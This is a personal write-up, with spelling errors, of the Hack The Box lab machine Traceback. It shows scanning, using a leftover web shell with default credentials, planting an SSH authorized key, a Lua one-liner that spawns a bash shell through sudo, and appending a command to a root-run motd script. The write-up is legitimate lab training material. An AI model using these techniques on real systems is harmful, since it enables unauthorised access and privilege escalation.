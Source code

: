 ## Hack The Box - Tracback

### This is my writeup and walkthrough for Traceback from Hack The Box.


![main](https://user-images.githubusercontent.com/36403473/90196696-cd8f2a00-ddcc-11ea-9f4f-5c0f9ca9ba3d.jpg)



### It was an easy machine from *Hack The Box*

## `Enumeration`

#### 1-Nmap 
  `nmap -sC -sV 10.10.10.181`

``` 
nmap -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 01:20 EET
Nmap scan report for 10.10.10.181
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 103K  2020-02-27 05:37  smevk.php
|_
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
I found http on port 80 and ssh on port 22.
use should have password to conncet server so lets see http 
i opend source code i found this comment 
`
		<!--Some of the best web shells that you might need ;)-->`

![Screenshot from 2020-05-07 17-49-56](https://user-images.githubusercontent.com/36403473/81316540-feecb100-908b-11ea-94d2-a4b602e0a7b6.png)
 the first thing i do i bruteforce http dircetory by Wfuzz but it take much time , i googled on this comment i found differnt web shells on :
https://github.com/TheBinitGhimire/Web-Shells" 
reading smevk.php
we can login http://10.10.10.181/smevk.php
username:**admin**
password:**admin**

now lets go to this  directory  **/home/webadmin/.ssh** 
![Screenshot from 2020-05-07 18-23-38](https://user-images.githubusercontent.com/36403473/81319780-745a8080-9090-11ea-800a-f18601cdc38f.png)
i could to upload ssh autherizeed key 
to generate ssh keys  
i used  **`ssh-keygen`** tool on linux 
![sshgenerat](https://user-images.githubusercontent.com/36403473/81320041-da470800-9090-11ea-93d7-6956bc5bfdc0.png)
and uplad an autherized key on the server 
### 2-user access 

so now lets try to login to server:
**`ssh-i id_rsa webadmin@10.10.10.181`**

![echo_note](https://user-images.githubusercontent.com/36403473/81354623-61fe3800-90cc-11ea-8ccc-92a912176868.png)
two files was the solution to take user acess **note.txt** & **bash-history**
okey the olny thing we will do write simple lua script and save it on file
**echo 'os.execute(" /bin/bash -i ")' >>block.lua ** 
save it on **block.lua file**

![note script](https://user-images.githubusercontent.com/36403473/81354540-2cf1e580-90cc-11ea-8b80-ff368637bbfb.png)
 okey lets try to acess sysadmin  by block.lua
` sudo -u sysadmin /home/sysadmin/luvit block.lua
`
 go back to home directory 
![acces_system_admin](https://user-images.githubusercontent.com/36403473/81355358-983cb700-90ce-11ea-8a26-2eec59305606.png)
  
now i have access on sysadmin 
checking files `ls -al `

![acces_system_admin](https://user-images.githubusercontent.com/36403473/81357137-287cfb00-90d3-11ea-874e-160c7a63cca7.png)

now i have user access `user.txt`
### 3-root access
lets try to get root access, so i searched all files i didnt get any thing. 
after googling much time to get root access i use **`ps -aux`** commmnd  to provide information about the currently running processes.
i notice that there was an operation happened in this directory **`/etc/update-motd.d/`**
going to this directory ckeck all details **`ls -al`**
![not2root](https://user-images.githubusercontent.com/36403473/81357368-ba850380-90d3-11ea-9e74-9ceedefe51cc.png)
after googling i discovred bug in  The file `/etc/update-motd.d/00-header` according to this   [/etc/update-motd.d/00-header is broken](https://bugs.launchpad.net/ubuntu/+source/base-files/+bug/510599).

so lets
`echo "cat root/root.txt " >> 00-header`
then login again to server i try many time to login 
at the end the root flag printed on the welcome screen 
